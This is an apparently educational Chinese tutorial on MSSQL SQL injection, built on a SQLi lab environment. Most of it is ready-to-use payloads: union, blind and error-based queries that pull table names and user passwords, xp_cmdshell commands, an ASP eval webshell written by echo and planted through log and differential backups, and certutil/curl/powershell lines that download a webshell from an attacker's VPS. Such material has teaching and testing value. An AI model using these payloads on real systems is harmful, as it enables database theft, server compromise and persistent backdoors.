

## 初始化环境
| 环境 | 版本 |
| --- | --- |
| 服务器 | windows server 2003 sp2 |
| web容器 | IIS6.0 |
| 数据库 | SQLServer 2000 personal |

由于环境不太好找，这里使用Github大佬提供的一个[MSSQL-SQLi-LABS](https://github.com/Larryxi/MSSQL-SQLi-Labs)作为环境依赖，MSSQL也是标准的关系型数据库，大多数注入方法都与MYSQL注入篇相似，但是MSSQL比MYSQL相对权限要更大，且在Windows域中只要有较高权限，就能影响域的安全，本篇只介绍基础注入知识，只谈针对MSSQL该如何注入
## 联合查询注入
页面将SQL语句返回的内容显示在了页面中(本例中是用户名、密码)，这种情况叫有回显的注入。
对于有回显的情况来说，通常使用联合查询注入法，其作用就是，在原来查询条件的基础上，通过关键字`union` ，`union all`，从而拼接恶意SQL语句，`union`后面的`select` 得到的结果将拼接到前个`select`的结果的后面
> - 若回显仅支持一行数据的话，让`union`前边正常的查询语句返回的结果为空
> - 使用union select进行拼接时，注意前后两个select语句的返回的字段数必须相同，否则无法拼接

`union`，`union all`区别

- `union`: 对两个结果集进行并集操作，不包括重复行，同时进行默认规则的排序
- `union all`: 对两个结果集进行并集操作，包括重复行，不进行排序；
### 注入流程
这里以**mssql-sqli-labs less 1** 举例
#### 确定字段段数量 
使用`order by`语句，通过拼接数字，可确定字段数量，若大于，则页面错误/无内容，若小于/等于，则页面正常，若错误页面与正确页面一致，更换盲注或报错注入。

正常页面：


错误页面：


#### 判断数据库权限
```basic
// 判断是否是系统管理员
?id=2' and 1=(select is_srvrolemember('sysadmin'))--+
// 判断是否是库权限
?id=2' and 1=(select is_srvrolemember('db_owner'))--+
// 判断是否是 public 权限
?id=2' and 1=(select is_srvrolemember('public'))--+
```
#### 判断页面回显位
根据上述判断的字段数量，使用`union select 1,2,3,x...` 将定义的数字显示在页面上，即可从中判断页面显示的字段位置。
注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的select查询条件返回结果为空即可
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条select语句的方法之一
- 如果union前面的查询条件返回为空的情况下，也没有标记数字，这时候一般是类型出错，导致无法显示在页面，可以将数字更改未null，如下所示


在这里，我们可以看到，`column2`，`column3` 的类型是`varchar`，但是给的类型为int，所以在字符在转换为int类型的时候，会报错，在这里，如果无法判断，则使用null来代替显位，或者使用逐一判断字符类型


#### 查询数据
通过第3步，找到显位之后，在显示字段位置使用子查询或直接查询，来查询数据；
首先通过`db_name()`查询当前数据库，数据库当前用户`user`，数据库版本`@@version`，服务器主机`@@SERVERNAME`


**查询数据库**
使用`db_name()`函数，传入数字类型就可以遍历所有的数据库

```sql
?id=-1' union select 1,db_name(1),3--+
```


或者查询`master..sysdatabases`来获取表名

```sql
?id=-1' union select '1',name,'3' from master..sysdatabases--+
```
当只能获取一个字段的时候，如下所示


由于mssql2000 没有concat函数（mssql 2012支持)，所以我们尝试使用如下payload，以此类推

```sql
?id=-1' union select '1',name,'3' from master..sysdatabases where name != 'master' --+
?id=-1' union select '1',name,'3' from master..sysdatabases where name not in ('master','model','msdb') --+
```




或者

```sql
select catalog_name from information_schema.schemata;
```
**查表**
在获取了当前的数据库，此时需要获取当前数据库的表，使用`current_database`..sysobjects(此时current_database为test，所以为test..systobjects)，条件为U（用户表）
```sql
// 查当前库的第一个表
?id=-1' union select top 1 '1',name,3 from  test..sysobjects where xtype='U'--+
// 查当前库的第一个表
select top 1 name from sysobjects where xtype='u'
// 查当前数据库的第一个表
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select top 1 table_name from information_schema.tables
// 查询master库第一个表名，以此类推
select top 1 table_name from master.information_schema.tables
```


**查字段**

```basic
// 支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = (select id from test..sysobjects where name='users')--+
// 或者
?id=-2' union select top 1 1,column_name,'3' from test.information_schema.columns where table_name = 'users'--+
// 或者,但是以下不支持跨库查询
?id=-2' union select top 1 1,name,'3' from test..syscolumns where id = OBJECT_ID('users')--+
// 或者
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),1) from sysobjects),3--+
?id=-2' union select top 1 1,(select top 1 col_name(object_id('users'),{i}) from sysobjects),3--+
```


**查值**
在已知表名，列名的情况下，直接使用select 语句查询即可

```sql
?id=-2' union select top 1 1,username,password from users--+
```
## 盲注
### 布尔盲注
布尔盲注其实和mysql布尔盲注一样，通过页面对永真条件，`or 1=1` 与 永假条件，`and 1=2` 返回的内容是否存在差异，进行判断是否可以进行布尔盲注。通常返回存在/不存在两个结果，就可以判断是否存在布尔盲注
```sql
-- 语句如下，如果condition为真，那么整条语句 where 语句则恒真
select * from users where username=$username and (condition)
```
and 1=1 恒真


and 1=2 恒假


利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
布尔盲注常用函数

- ascii()
- substring()
- count()
- len()

同mysql，一般注入流程为

- 求闭合字符
- 求当前数据库长度
- 求当前数据库ascii码值
- 求表名的数量
- 求表名的长度
- 求表名的ascii码值
- 求列名的数量
- 求列名的长度
- 求列名的ascii码值
- 求字段的数量
- 求字段的长度
- 求字段的ascii码值

求当前数据库长度
```sql
select * from users where id = '1' and len(db_name()) = 4 --+
```


依次求解当前数据库的ascii码值，如果能猜字符可以不用ascii函数

```sql
select * from users where id = '1' and ascii(substring(db_name(),1,1)) = 116 --+
```


求当前数据库中表的个数

```sql
select * from users where id = '1' and 4 = (select count(*) from test..sysobjects where xtype='U')--+
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select * from users where id = '1' and 6 = (select count(*) from test.information_schema.tables)--+
-- information_schema去除视图
select * from users where id = '1' and 4 = (select count(*) from test.information_schema.tables where table_type not in ('view'))--+
```


求当前数据库表的长度

```sql
select * from users where id = '1' and 5 = (select top 1 len(name) from test..sysobjects where xtype='U')--+
-- 求第二个表
select * from users where id = '1' and 6 = (select top 1 len(name) from test..sysobjects where xtype='U' and len(name) not in(5))--+
-- 依次类推求完所有表的长度。。。
```


求当前数据库表的ascii码值

```sql
select * from users where id = '1' and 117 = ascii(substring((select top 1 name from test..sysobjects where xtype='u'),1,1))--+
-- 求第二个表的ascii码值
select * from users where id = '1' and 101 = ascii(substring((select top 1 name from test..sysobjects where xtype='u' and name not in ('users')),1,1))--+
-- 依次类推，分别求解
```


求当前数据库某表的列名个数

```sql
-- 以下支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = (select id from test..sysobjects where name='users'))--+
-- 或
-- 以下只支持查询该库下的列，不支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = object_id('users'))--+
```


求当前数据库某表中列名的长度

```sql
select * from users where id = '1' and 2 = (select top 1 len(name) from test..syscolumns where id = object_id('users'))--+
-- 依次类推求各个字段的长度
select * from users where id = '1' and 8 = (select top 1 len(name) from test..syscolumns where id = object_id('users') and len(name) not in(2))--+
```


求当前数据库某表中列名的ascii码值

```sql
-- 可跨库查询
select * from users where id = '1' and 105 = ascii(substring((select top 1 name from test..syscolumns where id = (select id from test..sysobjects where name='users')),1,1))--+
-- 不跨库查询，推荐以下
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),1) from sysobjects),1,1))--+
-- {i} 为第i 个字段
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),{i}) from sysobjects),1,1))--+
```


求当前数据库某表字段的个数

```sql
select * from users where id = '1' and 	13 = (select count(*) from users)--+
```


求当前数据库user表username字段第一个值的长度

```sql
select * from users where id = '1' and 	4 = (select top 1 len(username) from users)--+
-- 这里要是知道了id值，可以用where [condition] id 来代替 top 1 ... where len(username) not in (/\d/)
```


求当前数据库user表username字段第一个值的ascii码值

```sql
select * from users where id = '1' and 68 = ascii(substring((select top 1 username from users),1,1))--+
-- 依次求解，使用top 1 ... where username/id... not in('Dumb')...
```


### 时间盲注
延时函数 `waitfor delay`
WAITFOR是SQL Server中Transact-SQL提供的⼀个流程控制语句。它的作⽤就是等待特定时间，然后继续执⾏后 续的语句。它包含⼀个参数DELAY，⽤来指定等待的时间。
如果将该语句成功注⼊后，会造成数据库返回记录和 Web请求也会响应延迟特定的时间。由于该语句不涉及条件判断等情况，所以容易注⼊成功。
语法：
```sql
WAITFOR DELAY '0:0:n'
```
示例：
```sql
WAITFOR DELAY '0:0:4' --  表⽰延迟4秒
```
时间盲注通过页面返回的内容的响应时间差异进行条件判断，但是在mssql中，默认可使用堆叠查询，这个也是判断mssql与mysql的区别之一，所以在判断注入点有三种方式，如下：
**直接带入查询**


**堆叠查询判断注入点**

```sql
select * from users where id = '1';waitfor delay '0:0:3'
```


**if判断注入点**

```sql
select * from users where id = '1' if (1=1) waitfor delay '0:0:4'
select * from users where id = '1' if (1=2) waitfor delay '0:0:4'
```


通常使用if语句来查询数据，if语句中判断True,False同布尔注入

## 报错注入
报错注入通常情况下在服务器开启报错信息返回，也就是发生错误时返回报错信息，通过特殊函数的错误使用使其参数被页面输出。
### convert()
CONVERT()函数是把⽇期转换为新数据类型的通⽤函数。
```sql
CONVERT(data_type(length),data_to_be_converted,style)
注释 ：
data_type(length) 转换为⽬标数据类型（带有可选的长度）。
data_to_be_converted 含有需要转换的值。
style 规定⽇期/时间的输出格式。
```
```sql
-- 示例
CONVERT(VARCHAR(19),GETDATE())
CONVERT(VARCHAR(10),GETDATE(),110) 
CONVERT(VARCHAR(11),GETDATE(),106)
CONVERT(VARCHAR(24),GETDATE(),113)
-- 结果
09 22 2021 11:39AM
09-22-2021
22 09 2021
22 09 2021 11:41:19:480
```
对于 convert(int,@@version)，convert 函数⾸先会执⾏第⼆个参数指定的SQL查询，然后尝试将查询结果转换为int类型。但是，由于这个SQL查询的结果是varchar类型，⽆法进⾏指定的转换，所以，convert函数会抛出 ⼀个SQL server错误消息，指出“SQL查询结果”⽆法转换为“int”类型，这样就能得到的这个SQL查询的结果了。如下所示
**查数据库**
```sql
select * from users where id = '1' and 1 = convert(int,db_name())--+
```


**查表名**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..sysobjects where xtype='u'))--+
```


**查列名**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 name from test..syscolumns where id = (select id test..sysobjects where name = 'users')))--+
```


**查值**

```sql
select * from users where id = '1' and 1 = convert(int,(select top 1 username from users))--+
```


### db_name()
此函数返回指定数据库的名称
```sql
DB_NAME ( [ database_id ] )
名称DB_NAME将返回的数据库的标识号 (ID) 。如果调用DB_NAME省略database_id，则DB_NAME返回当前数据库的名称。
返回nvarchar(128)
```
```sql
select * from users where id = '1' and 1 = db_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```


### file_name()
此函数返回给定文件标识 (ID) 号的逻辑文件名。
```sql
file_name(id)
其文件名的文件标识号FILE_NAME。file_id具有int数据类型。返回nvarchar(128)
file_ID对应于 sys.master_files 目录视图或 sys.database_files 目录视图中的 file_id 列。
```
```sql
select * from users where id = '1' and 1 = file_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```
### filegroup_name()
```sql
select * from users where id = '1' and 1 = filegroup_name((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')))--+
```


### col_name()
此函数根据表列的表标识号和列标识号值返回表列的名称。
```sql
COL_NAME ( table_id , column_id ) 
table_id 自变量具有一个 int 数据类型,column_id 自变量具有一个 int 数据类型,返回系统名称
```


### object_name() 
返回架构范围内对象的数据库对象名称。 
```sql
OBJECT_NAME ( object_id [, database_id ] )  
object_id 的数据类型为 int，并假定为指定数据库或当前数据库上下文中的架构范围内的对象
database_id 的数据类型为 int。要在其中查找对象的数据库的 ID
返回sysname
```


### type_name() 
返回指定类型 ID 的未限定的类型名称。
```sql
TYPE_NAME ( type_id )
type_id
type_id 的数据类型为 int，它可以引用调用方有权访问的任意架构中的类型。返回sysname
```


### cast()
将表达式由一种数据类型转换为另一种数据类型。
```sql
CAST ( expression AS data_type [ ( length ) ] )  
expression
任何有效的表达式。
data_type
目标数据类型。 这包括 xml、bigint 和sql_variant 。 不能使用别名数据类型。
length
指定目标数据类型长度的可选整数，适用于允许用户指定长度的数据类型。 默认值为 30。
style
指定 CONVERT 函数将如何转换 expression 的整数表达式。 对于 NULL 的样式值，则返回 NULL。 data_type 确定范围。\
返回转换为 data_type 的 expression 。
```
```sql
select * from users where id = '1' and 1 = cast((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')) as varchar)--+
```


### schema_name()
返回与架构 ID 关联的架构名称。
```sql
SCHEMA_NAME ( [ schema_id ] )  
schema_id	架构的 ID。 
schema_id 是 int。如果没有定义 schema_id，则 SCHEMA_NAME 将返回调用方的默认架构的名称。
schema_id 不是有效 ID 时，返回 NULL。
```
此处由于本地测试环境不支持该函数，故不做演示，类似相关的类型转换的函数还有很多，就不一一列出来了
### >、<、= 报错
这其实也是利用了类型不匹配来报错注入数据
```sql
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) > 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) = 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) < 0--+
```


### having 1=1 爆表名
having 需要与聚合函数group by 一起使用，当无group by 时，会直接爆出当前表，如下所示：


### group by ... having 1=1 爆列名


## order by 注入
order by 注入通常出现在排序中，前端展示的表格，某一列需要进行升序或者降序排列，或者做排名比较的时候常常会用到`order by`排序，`order by`在select语句中，紧跟在`where [where condition]`后，且order by 注入无法使用预编译来防御，由于order by 后面需要紧跟`column_name`，而预编译是参数化字符串，而`order by`后面紧跟字符串就会提示语法错误，通常防御order by 注入需要使用白名单的方式。
### 判断order by 注入点
通过order by 列名，根据排序返回的情况来判断是否存在，或者使用超大数，构成SQL语句错误


### 开启错误提示
当开启了错误提示的情况下，可以使用报错注入的方式，在order by 之后使用报错注入的函数来爆出数据
```sql
select * from users order by convert(int,db_name)--+
```


### 关闭错误提示
当关闭了错误提示的情况下，可以考虑使用时间盲注来注出数据


时间盲注方式如上盲注篇查看

## 堆叠注入
MSSQL 默认是可以多语句查询，其与mysql不同的是，MSSQL非常灵活，且可执行系统命令，当存在堆叠查询的语句中，就可以考虑执行系统命令，写入webshell，远程下载木马文件，执行命令getshell等等。
## 二次注入
场景见MySQL注入基础二次注入
## HTTP头部注入
见MySQL注入基础HTTP头部注入
## 文件操作
MSSQL的文件操作要求要有两大前提：

- 有相应的权限db_owner
- 知道文件的绝对路径

在mssql中有两个存储过程可以帮我们来找绝对路径：xp_cmdshell和 xp_dirtree
**利用xp_dirtree方法来寻找**
```sql
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```


当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中

```sql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```


**使用xp_cmdshell**查找绝对路径
cmd中寻找某文件

```shell
for /r c:\ %i in (*.asp) do echo %i
```


需要建立一个表存一个char字段就可以了


### 读
读取文件可以创建一个临时表，将本地文件写入该表中（无法远程登录的情况下，使用堆叠注入）
```sql
--建立一个临时表
create table #testtable(
 context ntext
);
select * from #testtable

--将本地文件写入表中
BULK INSERT #testtable FROM 'c:/1.txt'
WITH (
   DATAFILETYPE = 'char',
   KEEPNULLS
)
--drop table #testtable; 
```


xp_cmpshell执行dos命令，在知道绝对路径的情况下读取文件

```sql
exec master..xp_cmdshell 'type c:\\1.txt'
```


### 写
xp_cmdshell 写入webshell
在得知绝对路径的情况下，使用echo 写入webshell，如果需要换行则使用>>追加写入，注意如=、> 等前使用^来转义
```sql
exec master..xp_cmdshell 'echo ^<%eval request("cmd")% ^>> C:\Inetpub\wwwroot\sqlilabs\test.asp'
```


或者使用远程下载

```shell
certutil.exe -urlcache -split -f "<your_vps>" web_absolute_path/xxx.asp
curl <your_vps> -o web_absolute_path/xxx.asp
powershell -c "invoke-webrequest -uri <your_vps> -outfile web_absolute_path/xxx.asp"
```
### DB_owner权限LOG备份Getshell
无论是LOG备份还是差异备份，都是利用备份的过程中写入一句话木马
**SQLServer常见的备份策略：**

- 每周一次完整备份
- 每天一次差异备份
- 每小时一次事务日志备份

**利用前提**：

- 目标机器存在数据库备份文件 ，也就是如果我们利用 test 数据库的话，则需要该test数据库存在数据库备份文件，而且恢复模式得是 完整模式
- 知道网站的绝对路径
- 该注入支持堆叠注入
```sql
alter database 数据库名 set RECOVERY FULL;   #修改数据库恢复模式为 完整模式
create table cmd (a image);        #创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\Inetpub\wwwroot\sqlilabs\1.asp' with init;   #备份表到指定路径
insert into cmd (a) values(0x3c256576616c20726571756573742822636d642229253e);  #插入一句话到cmd表里
backup log 数据库名 to disk='C:\Inetpub\wwwroot\sqlilabs\2.asp';   #把操作日志备份到指定文件
drop table cmd;    #删除cmd表
```
第四行的 `0x3c256576616c20726571756573742822636d642229253e `是一句话木马 的16进制表示`<%eval request("cmd")%>`


执行完成之后会在目标网站根目录下生成1.asp和2.asp文件，其中1.asp 保存数据库，2.asp就是我们需要连接的木马文件


### DB_owner权限差异备份Getshell
注：差异备份有概率会把网站搞崩，所以不建议使用差异备份
**利用前提**：

- 知道网站的绝对路径 
- 该注入支持堆叠注入

注：以下语句一条一条执行
```sql
create table [dbo].[test] ([cmd] [image])
insert into [test](cmd) values(0x3c256576616c20726571756573742822636d642229253e)
backup database test to disk = 'C:\Inetpub\wwwroot\1.asp'
Drop table [test]
```
第2行的` 0x3c256576616c20726571756573742822636d642229253e` 是一句话木马 的16进制表示`<%eval request("cmd")%>`


